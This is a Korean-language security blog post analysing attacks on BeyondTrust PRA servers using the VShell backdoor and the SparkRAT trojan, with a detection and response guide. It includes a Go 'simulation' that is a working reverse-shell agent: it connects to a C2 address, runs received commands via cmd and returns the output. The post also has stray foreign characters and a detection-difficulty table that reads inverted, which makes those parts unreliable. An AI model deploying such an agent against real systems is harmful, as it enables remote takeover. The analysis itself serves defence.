

## 서론

수요일 새벽 3시, SOC(Security Operations Center) 모니터링 화면에 붉은색 경고灯이 깜빡입니다. 내부 네트워크의 핵심인 **BeyondTrust Privileged Remote Access(PRA)** 서버에서 의심스러운 아웃바운드 트래픽이 감지되었습니다. 단순한 오류가 아닙니다. 공격자는 이미 보안의 성지라 불리는 PAM(Privileged Access Management) 솔루션을 뚫고 내부에 발을 들였습니다.

이번 공격의 핵심은 바로 **VShell**과 **SparkRAT**이라는 정교한 조합입니다. 많은 보안 담당자가 PAM 솔루션 자체가 보안된 장치라고 착각하기 쉽습니다. 하지만 "가장坚固한 요새도 내부로부터 무너진다"는 격언처럼, 공격자는 BeyondTrust의 취약점을 악용하여 최상위 권한을 탈취한 뒤, 마치 자신의 서버인 양 장악합니다. 이 글에서는 실제로 발생하고 있는 이 공격 체인을 분석하고, 어떻게 공격자가 VShell을 통해 발판을 마련하며 SparkRAT으로 장기적인 지휘 통제권을 쥐는지 그 기술적 메커니즘을 파헤칩니다.

## 본론

### 1. 공격 체인 분석: VShell에서 SparkRAT까지

방어 목적의 분석을 위해, 먼저 공격자가 BeyondTrust 취약점을 악용해 악성 코드를 심는 전체 과정을 이해해야 합니다. 이 공격은 단발성 훼치기가 아니라, 지속적인 원격 제어를 목적으로 하는 다단계 프로세스입니다.

아래 다이어그램은 BeyondTrust 취약점(CVE)이 악용된 후 VShell 백도어가 설치되고, 최종적으로 SparkRAT이 활성화되는 공격 흐름을 간략화한 것입니다.



이 흐름에서 가장 중요한 점은 **VShell**이 단순한 웹 셸이 아니라는 것입니다. 공격자는 이를 통해 방화벽 우회 터널링을 수행하며, 안정적인 통신 채널이 확보되면 본격적인 원격 제어 도구인 **SparkRAT**을 다운로드합니다.

### 2. 악성 페이로드 기술적 심층 분석

#### VShell: 트로이목마의 문 VShell은 주로 BeyondTrust와 같은 특정 솔루션의 웹 인터페이스 취약점을 통해 초기 침투 시 사용되는 가벼운 백도어입니다. 공격자는 인증 우회 취약점을 이용해 악성 스크립트를 서버에 주입합니다.

이 도구의 주목적은 **지속성(Persistence)** 확보와 **페이로드 다운로드**입니다. 공격자는 VShell을 통해 시스템의 `cmd.exe`나 `/bin/bash`와 같은 셸을 획득하여, 추가적인 악성 코드인 SparkRAT을 서버에 다운로드하고 실행하는 명령을 내립니다.

#### SparkRAT: Go 기반의 은폐된 지휘관 SparkRAT은 최근 보안 업계에서 주목받고 있는 Go(Golang) 언어로 작성된 원격 접근 트로이목마(RAT)입니다. 기존의 C/C++ 기반 RAT와 달리 크로스 플랫폼 컴파일이 쉽고, 정적 분석을 어렵게 만드는 특징이 있습니다.

SparkRAT은 주로 WebSocket이나 HTTP 프로토콜을 포장하여 일반적인 웹 트래픽처럼 위장합니다. 아래 표는 일반적인 RAT와 SparkRAT의 주요 차이점을 비교한 것입니다.

| 비교 항목 | 전통적 RAT (e.g., Gh0st, PlugX) | SparkRAT (Go 기반) | | :--- | :--- | :--- | | **개발 언어** | C / C++ | Go (Golang) | | **주요 통신 프로토콜** | Raw TCP / Custom Protocol | HTTP / WebSocket (표준 프로토콜 위장) | | **탐지 난이도** | 상대적으로 높음 (패턴 노출) | 낮음 (混淆/Obfuscation 용이, 트래픽 위장) | | **크로스 플랫폼** | 제한적 (OS별 빌드 필요) | 우수 (Linux, Windows 단일 빌드 지원) | | **특징** | 레지스트리 수정 등 고전적 방식 사용 | 메모리 실행, 파일리스(Fileless) 기법 지원 경향 |

SparkRAT은 C2(Command & Control) 서버와 주기적으로 '하트비트'를 주고받으며 명령을 대기합니다. 이 통신은 TLS로 암호화되어 있어 네트워크 상에서 내용을 확인하는 것은 거의 불가능합니다.

### 3. PoC 코드: SparkRAT 통신 시뮬레이션 (학습 목적)

SparkRAT의 작동 원리를 이해하기 위해, 공격자가 사용할 수 있는 매우 간단한 Go 기반 에이전트 통신 로직을 시뮬레이션해보겠습니다. **주의: 아래 코드는 보안 전문가의 방어적 연구 목적을 위해 작성된 것으로, 악용을 엄격히 금지합니다.**

이 코드는 가상의 C2 서버에 연결하여 명령을 대기하고, 전송된 명령을 실행한 뒤 결과를 다시 보내는 구조를 보여줍니다.

```go
package main

import (
	"bufio"
	"fmt"
	"net"
	"os/exec"
	"strings"
)

// 악성 코드의 동작 방식을 이해하기 위한 학습용 시뮬레이션 코드입니다.
// 실제 환경에서 사용 시 법적 책임이 따를 수 있습니다.

func connectToC2(server string) {
	conn, err := net.Dial("tcp", server)
	if err != nil {
		fmt.Println("[-] C2 연결 실패:", err)
		return
	}
	defer conn.Close()
	fmt.Println("[+] C2 서버에 연결되었습니다:", server)

	// 명령 대기 루프
	for {
		// C2로부터 명령 수신
		message, _ := bufio.NewReader(conn).ReadString('
')
		command := strings.TrimSpace(message)
		
		if command == "exit" {
			break
		}

		// 명령 실행 (실제 SparkRAT은 더 복잡한 권한 상승 및 은폐 로직을 포함함)
		cmd := exec.Command("cmd", "/C", command)
		output, err := cmd.Output()
		
		var result string
		if err != nil {
			result = "Error: " + err.Error()
		} else {
			result = string(output)
		}

		// 실행 결과 C2에 전송
		conn.Write([]byte(result + "
"))
	}
}

func main() {
	// 예시 C2 주소 (로컬 호스트)
	targetServer := "127.0.0.1:4444"
	connectToC2(targetServer)
}
```

이 코드는 공격자가 SparkRAT을 통해 피해자 서버에서 명령을 실행하는 기초적인 메커니즘을 보여줍니다. 실제 악성코드는 이 과정에서 트래픽을 정상 웹 브라우징으로 위장하거나, 프로세스를 숨기는 스텔스(Stealth) 기능이 추가됩니다.

### 4. 침해 탐지 및 대응 가이드 (Step-by-Step)

이 공격을 탐지하고 대응하기 위해서는 단순한 시그니처 기반 백신 업데이트를 넘어선 행동 기반 탐지가 필요합니다.

**1단계: 네트워크 트래픽 분석** BeyondTrust 서버에서 발생하는 아웃바운드 연결을 모니터링해야 합니다. 특히 PRA 서버가 인증되지 않은 외부 IP(HTTP/WebSocket 포트)로 지속적인 연결을 시도한다면 즉각적으로 조치해야 합니다.

- *확인 항목:* 비정상적인 포트(예: 8080, 4444 등) 사용, 알려지지 않은 도메인으로의 연결 시도

**2단계: 파일 무결성 및 프로세스 감시** VShell이 설치되면 웹 루트 디렉터리에 의심스러운 스크립트 파일이 생성됩니다. SparkRAT은 실행 시 메모리에 상주하거나 `svchost.exe` 등으로 위장할 수 있습니다.

- *확인 항목:* `C:\Program Files\BeyondTrust\` 등 설치 경로 외부의 실행 파일 생성, 알 수 없는 `go-build` 실행 파일

**3단계: VShell 및 SparkRAT 제거**

- 서버를 네트워크에서 격리(LAN 분리)합니다.

- VShell 백도어로 생성된 웹 셸 파일을 삭제하고 로그를 분석하여 침투 경로를 추적합니다.

- 메모리 내에 로딩된 SparkRAT 프로세스를 종료하고, 관련 레지스트리 키(자동 실행 등)를 제거합니다.

- BeyondTrust 제품을 최신 패치로 업데이트하여 원인이 된 취약점을 제거합니다.

## 결론

BeyondTrust와 같은 PAM 솔루션을 겨냥한 VShell과 SparkRAT 결합 공격은 현대 사이버 위협의 추세를 명확히 보여줍니다. 공격자는 더 이상 단순한 데이터 유출에 만족하지 않으며, 시스템의 최고 권한을 장악하여 **'보안을 관리하는 시스템' 자체를 병기화**하려 합니다.

이번 분석을 통해 얻을 수 있는 핵심 인사이트는 **"신뢰할 수 있는 서버라도 내부 행동을 지속적으로 검증해야 한다"**는 것입니다. 방어자는 단순히 외부 침입을 막는 것에 그치지 않고, 중요 서버에서 발생하는 비정상적인 아웃바운드 트래픽과 의심스러운 프로세스 생성(특히 Go 언어 기반)을 감시하는 방향으로 전략을 수정해야 합니다. 특히 SparkRAT과 같은 최신 툴은 트래픽 위장 능력이 뛰어나므로, 네트워크 기반 탐지(NDR)와 호스트 기반 탐지(EDR)의 상관 분석이 필수적입니다.

**참고자료**

- [Cyber Press - Active Attacks Target BeyondTrust Vulnerability](https://news.google.com/rss/articles/CBMiYEFVX3lxTE1Fcmp1ajdhZGJPTGJHSklycGxMcVpIck12YV9wdW5YOG0zbWMxUEFjN1haZmJoVWhoN1VUMS01cjg0dEdzSlRuWVhQUllYNk9WV1BGTkRleVI5SnFXejFRbw)

- BeyondTrust Security Advisories

- MITRE ATT&CK Framework: T1505.003 (Server Software Component)
